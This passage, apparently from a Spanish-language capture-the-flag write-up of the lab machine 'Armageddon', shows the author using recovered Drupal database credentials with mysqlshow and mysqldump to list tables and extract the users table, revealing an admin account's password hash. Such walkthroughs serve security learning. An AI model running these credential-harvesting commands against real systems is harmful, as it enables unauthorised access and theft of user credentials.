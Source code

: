 Perfe, tenemos las bases de datos disponibles en el sistema... Y validamos que existe `drupal`. Ahora podemos empezar a meternos entre la base de datos y explorar las tablas:

```bash
armageddon.htb>> mysqlshow -u drupaluser -pCQHEy@9M*m23gBVj drupal
Database: drupal               
+-----------------------------+
|           Tables            |
+-----------------------------+
| actions                     |
| authmap                     |
...
| users                       |
...
| users_roles                 |
| variable                    |
| watchdog                    |
+-----------------------------+
```

Podemos ver cada tabla, pero veremos su estructura más no su contenido... Acá podemos apoyarnos de [mysqldump](https://www.sqlshack.com/how-to-backup-and-restore-mysql-databases-using-the-mysqldump-command/), el cual se encarga de generar un **backup** de la base de datos que le indiquemos, por lo tanto va a dumpear todo el contenido y la estructura de las tablas:

```bash
armageddon.htb>> mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal
```

El output es gigante, peeeero como lo que nos interesa es validar el contenido de la tabla `users`, simplemente buscamos por eso:

```bash
armageddon.htb>> mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal | grep "users"
...
CREATE TABLE `users` (
-- Dumping data for table `users`
...
```

```bash
armageddon.htb>> mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal | grep "Dumping data for table \`users\`"
-- Dumping data for table `users`
armageddon.htb>> mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal | grep "Dumping data for table \`users\`" -A 10
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}'),(3,'test','$S$DwIeAxnNRIh9nffiwqM.hpZpekF1HtLtbpHP1IvRoF7ASRB12D.4','test@gmail.com','','','filtered_html',1617249869,0,0,0,'Europe/London','',0,'test@gmail.com',NULL);
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
```
